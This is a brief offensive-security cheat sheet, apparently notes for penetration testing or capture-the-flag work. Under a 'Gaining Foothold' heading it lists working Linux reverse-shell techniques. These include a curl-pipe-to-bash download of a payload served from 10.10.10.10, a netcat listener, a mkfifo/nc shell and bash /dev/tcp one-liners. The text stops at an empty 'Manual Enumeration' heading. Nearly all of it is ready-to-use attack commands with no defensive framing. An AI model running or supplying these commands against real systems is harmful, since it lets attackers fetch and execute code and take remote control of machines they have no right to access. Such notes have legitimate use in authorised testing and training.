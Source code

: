 # Linux
## Gaining Foothold
#### Three stage-exploit using cURL
1. Create reverse shell payload `echo 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1' > rev.sh`
2. Spin up a Python3 web server `python3 -m http.server 80`
3. Start up your reverse shell `nc -lnvp 1337`
4. Wherever you have command execution, cURL and execute the payload `curl http://10.10.10.10/rev.sh | bash`

#### Using sh
Deliver the payload
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 > /tmp/f
```

#### Using Bash to call Bash
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1'
```

## Manual Enumeration
